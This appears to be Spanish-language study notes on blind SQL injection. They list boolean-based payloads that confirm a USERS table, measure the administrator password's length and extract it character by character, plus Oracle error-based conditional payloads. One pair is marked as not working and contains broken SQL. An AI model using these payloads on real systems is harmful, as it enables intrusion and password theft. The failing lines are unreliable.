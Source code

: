 Para ver todas las columnas que regresa
> https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.html

Algunas Son:
> `COLUMN_NAME, DATA_TYPE, DATA_LENGTH`

### Comandos para ejecutar Blind SQLi 

Notas:
- Alguna veces se puede hacer uso de las cookies para ejecutar estos tipos de ataques.
- Se pueden encontrar mensajes como consecuencia de que se esta realizando correctamente el SQLi (Mensaje de bienvenida)
- Suelen ser usados para ejecutar comandos que retornan valores de verdadero o falso 


**Con efecto visual**
Verificar si se puede ejecutar un Blind SQLi tomando en cuenta que habrá un efecto en la página indirecto
> `' AND 1=1--`

> `' AND 1=0--`

Verificar si existe tabla `USERS`
>`'AND EXISTS (SELECT * FROM USERS)--`

Verificar si existe la columna `username` en tabla `USERS`
>`'AND EXISTS (SELECT username FROM USERS)--`

Verificar si existe la columna `Password` en tabla `USERS`
>`'AND EXISTS (SELECT Password FROM USERS)--`

Verificar si existe el usuario `administrator` en la tabla `USERS`
>`'AND EXISTS (SELECT Password FROM USERS WHERE username='administrator')--`

Verificar tamaño de la contraseña
>`'AND LENGTH((SELECT Password FROM USERS WHERE username='administrator')) > 1--`

Obtener la contraseña de un usuario administrador evaluando cada uno de los caracteres 
> `'AND SUBSTRING((SELECT Password FROM USERS WHERE username = 'administrator'), 1, 1) > 'a'--`


**Con efecto en status de respuesta** (Oracle)
Verificar si se puede generar el status 500
> `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Verificar existencia de tabla
>`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

Verificar existencia de la columna `username`  NO FUNCIONA
>`'||(SELECT '' FROM users ORDER BY username WHERE ROWNUM = 1)||'`
>`'||(SELECT * FROM users WHERE EXISTS (SELECT USERNAME FROM users) )||'`

Verificar existencia de la columna `username`
>`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='*')||'`

Verificar existencia del usuario `administrator`
>`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
